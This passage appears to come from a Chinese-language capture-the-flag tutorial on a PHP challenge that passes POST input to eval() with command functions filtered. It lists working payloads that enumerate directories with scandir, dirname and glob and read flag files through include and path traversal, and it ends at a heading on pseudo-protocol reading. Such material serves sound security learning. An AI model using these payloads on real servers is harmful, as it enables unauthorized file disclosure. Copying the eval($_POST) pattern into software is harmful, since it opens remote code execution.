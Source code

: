 题目仅有一层 `eval`，而用于执行命令的函数均被过滤，下面介绍仅通过函数组合而不借助任何命令实现目录与文件读取的方法。

原代码示例：
```php
if(isset($_POST['c'])){
    $c = $_POST['c'];
    eval($c);  
}else{
    highlight_file(__FILE__);   
}
```

## 7.1 函数嵌套目录读取

### 7.1.1 自根目录向下读取目录

```c
c=print_r(scandir("/"));
c=print_r(scandir("/var"));
c=print_r(scandir("/var/www"));
c=print_r(scandir("/var/www/html"));
```

### 7.1.2 自当前目录向上读取目录

```c
c=print_r(scandir(dirname(__FILE__)));         // 读取当前目录
c=print_r(scandir(dirname(__DIR__)));          // 读取上级目录
c=print_r(scandir(dirname(dirname(__FILE__))));  // 读取上级目录
c=print_r(scandir(dirname(dirname(__DIR__))));   // 读取上上级目录
c=print_r(scandir(dirname(dirname(dirname(dirname(__DIR__))))));
```

或者使用 `glob` 函数：
```c
c=var_export(glob('*'));
c=var_export(glob('../*'));
c=var_export(glob('../../*'));
c=var_export(glob('../../../*'));
```

## 7.2 include函数文件读取

### 7.2.1 直接包含输出文件

```c
c=include("flag.php"); echo $flag;

c=include("../../../../../flag.txt"); echo $flag;

c=include("/flag.txt"); echo $flag;
```

### 7.2.2 伪协议文件读取
